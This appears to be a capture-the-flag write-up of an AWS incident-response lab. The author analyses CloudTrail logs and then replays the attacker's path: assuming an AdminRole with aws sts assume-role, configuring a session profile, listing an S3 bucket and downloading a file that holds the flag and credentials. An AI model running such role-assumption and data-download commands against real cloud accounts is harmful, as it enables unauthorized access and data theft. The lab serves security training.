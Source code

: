 ## Scenario

We've been alerted to a potential security incident. The Huge Logistics security team have provided you with AWS keys of an account that saw unusual activity, as well as AWS CloudTrail logs around the time of the activity. We need your expertise to confirm the breach by analyzing our CloudTrail logs, identifying the compromised AWS service and any data that was exfiltrated.

Access key id: **REDACTED_FOR_LAB**
Secret access key: **REDACTED_FOR_LAB**

Shows this:
![Screenshot](images/Pasted image 20250518211436.png)
Tried to access this bucket:
![Screenshot](images/Pasted image 20250518211819.png)
The user was using AssumedRole to assume as admin:
![Screenshot](images/Pasted image 20250518212624.png)
Used the command to try assuming role and it worked:
aws sts assume-role \
  --role-arn arn:aws:iam::107513503799:role/AdminRole \
  --role-session-name MySession
![Screenshot](images/Pasted image 20250518212759.png)
Configured the profile:
aws configure --profile assumed-admin
aws configure set profile.assumed-admin.aws_session_token "<session_token>"

The command aws s3 ls --profile assumed-admin showed access denied:
![Screenshot](images/Pasted image 20250518212909.png)

But command aws s3 ls s3://emergency-data-recovery --profile assumed-admin provided the list of files:
![Screenshot](images/Pasted image 20250518213016.png)

Downloaded the emergency.txt file with command aws s3 cp s3://emergency-data-recovery/emergency.txt ./ --profile assumed-admin

The file contained the flag and other sensitive info like credentials:
![Screenshot](images/Pasted image 20250518213151.png)